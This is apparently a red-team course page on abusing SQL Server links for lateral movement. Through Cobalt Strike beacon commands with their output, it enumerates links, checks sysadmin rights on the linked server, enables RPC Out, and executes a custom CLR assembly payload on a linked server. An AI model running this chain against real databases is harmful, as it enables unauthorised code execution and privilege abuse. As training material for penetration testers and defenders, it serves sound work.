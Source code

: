 
SQL server links can be used to connect a SQL instance with additional data sources, including other SQL servers.  It's possible to enumerate the links that a server has with other SQL instances, and even exploit them for lateral movement.

The `sql-links` BOF will show any links that the target server has.

```powershell
beacon> sql-links lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Enumerating linked servers on lon-db-1

name | product | provider | data_source | 
------------------------------------------
LON-DB-2 | SQL Server | SQLNCLI | LON-DB-2 | 

[*] Disconnecting from server
```

This shows that _lon-db-1_ has a link with another SQL server called _lon-db-2_.  We can use this to query the linked server, e.g. using `sql-query`.

```powershell
beacon> sql-query lon-db-1 "SELECT @@SERVERNAME" "" lon-db-2

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Executing custom query on lon-db-2 via lon-db-1

 | 
---
lon-db-2 | 

[*] Disconnecting from server
```

Each one of these SQL BOFs has a `linkedserver` option for them to work across a link.

```powershell
beacon> sql-whoami lon-db-1 "" lon-db-2

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Determining user permissions on lon-db-2 via lon-db-1
[*] Logged in as CONTOSO\rsteel
[*] Mapped to the user dbo
[*] Gathering roles...
 |--> User is a member of the public role
 |--> User is a member of the db_owner role
 |--> User is a member of the db_accessadmin role
 |--> User is a member of the db_securityadmin role
 |--> User is a member of the db_ddladmin role
 |--> User is a member of the db_backupoperator role
 |--> User is a member of the db_datareader role
 |--> User is a member of the db_datawriter role
 |--> User is NOT a member of the db_denydatareader role
 |--> User is NOT a member of the db_denydatawriter role
 |--> User is a member of the sysadmin role
 |--> User is a member of the setupadmin role
 |--> User is a member of the serveradmin role
 |--> User is a member of the securityadmin role
 |--> User is a member of the processadmin role
 |--> User is a member of the diskadmin role
 |--> User is a member of the dbcreator role
 |--> User is a member of the bulkadmin role

[*] Disconnecting from server
```

The security context that you receive on the linked server depends on how the link itself is configured.  It may use hardcoded local credentials, hardcoded domain credentials, or it may inherit the security context of the current session.  For example, if the link was configured using the local sa account, then you will have access to the linked server as the sa user.  That will give you sysadmin privileges on the linked server, even if you don't have that access on the initial server.

If xp_cmdshell, OLE, or CLR are already enabled on the linked server then we can attack it as previously described.  If not, then we obviously have to try and enable them.  However, this will fail if _RPC Out_ is not enabled on the link, as it's required in order to call stored procedures on the linked server.

The `sql-checkrpc` command can be used to check first, and `sql-enablerpc` to enable it on a target link.

```powershell
beacon> sql-checkrpc lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Enumerating RPC status of linked servers on lon-db-1

name | is_rpc_out_enabled | 
----------------------------
lon-db-1 | 1 | 
LON-DB-2 | 0 | 

[*] Disconnecting from server

beacon> sql-enablerpc lon-db-1 lon-db-2

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Toggling RPC on lon-db-2...

is_rpc_out_enabled | 
---------------------
1 | 

[*] Disconnecting from server
```

We can then get code execution across the link, e.g. with `sql-clr`.

```powershell
beacon> sql-clr lon-db-1 C:\Users\Attacker\source\repos\ClassLibrary1\bin\Release\ClassLibrary1.dll MyProcedure "" lon-db-2

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Performing CLR custom assembly attack on lon-db-2 via lon-db-1

[*] CLR is enabled
[*] RPC out is enabled
[!] Error fetching results
[*] Assembly hash does not exist (error fetching result normal)
[*] Added SHA-512 hash for DLL to sys.trusted_assemblies with the name "ztvnsjhj"
[*] Creating a new custom assembly with the name "ioivboaj"
[*] Loading DLL into stored procedure "MyProcedure"
[*] Created "[ioivboaj].[StoredProcedures].[MyProcedure]"
[*] Executing payload...
[*] Cleaning up...

[*] Disconnecting from server
```

![[Pasted image 20250723093842.png]]
